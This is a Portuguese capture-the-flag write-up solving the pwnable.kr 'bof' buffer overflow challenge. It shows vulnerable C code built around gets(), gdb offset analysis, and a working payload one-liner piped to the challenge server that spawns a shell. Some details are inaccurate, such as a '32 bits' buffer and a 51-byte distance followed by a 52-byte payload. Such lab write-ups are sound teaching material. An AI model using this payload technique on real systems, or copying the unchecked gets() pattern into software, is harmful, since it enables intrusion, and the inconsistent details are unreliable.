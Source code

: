 # Duckware Team - bof (pwnable)
###### Solved by @Antonio-alexandre

> This CTF is about pwn, buffer overflow

## Desafio: bof (Pwn, Buffer Overflow)
#### Introdução

Neste desafio, precisaremos analisar e identificar vulnerabilidades em um código a fim de aplicar uma técnica chamada de `Buffer Overflow`, para assim conseguirmos identificar a

- [Página do desafio](http://pwnable.kr/play.php)

#### Análise Inicial

A princípio, nos deparamos com a seguinte descrição: 

> Vovó me disse que o buffer overflow é uma das vulnerabilidades de software mais comuns.
Isso é verdade?

Além dos seguintes links para download dos arquivos:

- [Link 1](http://pwnable.kr/bin/bof)
- [Link 2](http://pwnable.kr/bin/bof.c)

Além do seguinte código para conectar ao servidor:

`nc pwnable.kr 9000` 

#### Solução

A princípio, nos deparamos com dois arquivos. Um código em C chamado `bof.c` e um executável apenas com o nome de `bof`. Juntamente com um código a ser inserido para conectar ao servidor. 

Ao tentarmos conectar ao servidor, nos deparamos com a seguinte mensagem:

[![Imagem6.png](https://i.postimg.cc/fL1hGjGL/Imagem6.png)](https://postimg.cc/jw69NNd0)

Como não temos como prosseguir, iremos ao código.

O código que nos foi concebido, é o seguinte:

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

O objetivo desse desafio, é que o valor da variável `key` seja alterado para `0xcafebabe`. Isso permitirá que o sistema execute `/bin/sh`, permitindo assim o nosso acesso a um [shell](https://guialinux.com.br/o-que-e-um-shell/).

Ao analisar todo o código, chegamos a algumas conclusões:

- O código possui um buffer de 32 bits.
- A função gets() permite a entrada de uma informação do usuário, sem que haja verificação de tamanho.
- Assim que o valor da variável `key` é alterado para o desejado, ele executará um shell.

Porém, o código não nos permite digitar diretamente. Precisaremos então utilizar uma ferramenta externa, chamada de `gdb`.

Executaremos então o comando `gdb bof`, para executar o `gdb`.

[![Imagem7.png](https://i.postimg.cc/QCcvRLg4/Imagem7.png)](https://postimg.cc/xNTsz44M)

Dentro do terminal do gdb, iremos descompilar a `main`. Ao executar o comando, ele nos retorna a seguinte tabela:

[![Imagem8.png](https://i.postimg.cc/BvtkJPc1/Imagem8.png)](https://postimg.cc/67JY03P9)

Já ao descompilar a função `func`, nos deparamos com a seguinte tabela:

[![Imagem9.png](https://i.postimg.cc/4NZ0mSQG/Imagem9.png)](https://postimg.cc/V5Ggh4hZ)

Como podemos notar ao analisar, percebemos que a função `$0xdeadbeef` está sendo movida para o registrador %eax:

`0x00000693 <+9>:    movl   $0xdeadbeef,(%esp)`

Já a seguinte linha, mostra a comparação de `0xcafebabe` que precisamos.

`0x00000654 <+40>:    cmpl   $0xcafebabe,0x8(%ebp)`

Basta então, executar o código com um [breakpoint](https://programae.org.br/cursoprogramacao/glossario/o-que-e-breakpoint-em-programacao/) em `gets`:

[![Imagem10.png](https://i.postimg.cc/YSmRX6z8/Imagem10.png)](https://postimg.cc/jWty2J9J)

Podemos então printar o conteúdo de `$ebp+8` (da linha `cafebabe`)

[![Imagem11.png](https://i.postimg.cc/3N3ZJP5b/Imagem11.png)](https://postimg.cc/1nYFv7zp)

O endereço de key no meu caso é `0xffffcf50`. Nesse caso, basta encontrar onde o buffer começa, para saber a distância entre eles.

Se sobrescrevermos essa quantidade de bytes no buffer, terminando com `cafebabe` o valor de `deadbeef` será alterado e a flag revelada.

Como nós possuímos a informação de que `deadbeef` foi copiada para `eax`, podemos identificar uma [lea](https://iq.opengenus.org/x86-lea/) na seguinte linha:

`0x00000649 <+29>:    lea    -0x2c(%ebp),%eax`

Nesse caso então, precisamos checar `$ebp-0x2c`. Para isso, utilizaremos o seguinte comando:
```
(gdb) x/1s $ebp-0x2c
0xffffcf1c:     "booooooof"
```

Então, basta identificar a distância entre eles:

[![Imagem12.png](https://i.postimg.cc/W3vGXQ3b/Imagem12.png)](https://postimg.cc/2q0L59hP)

Percebemos então que há uma distância de 51 bytes. Feito isso, basta executar o seguinte comando no terminal:

```
(python -c "print '\x01'*52+'\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000
cat flag
```

Assim então, temos acesso a `flag`:

>`daddy, I just pwned a buFFer :)`
 
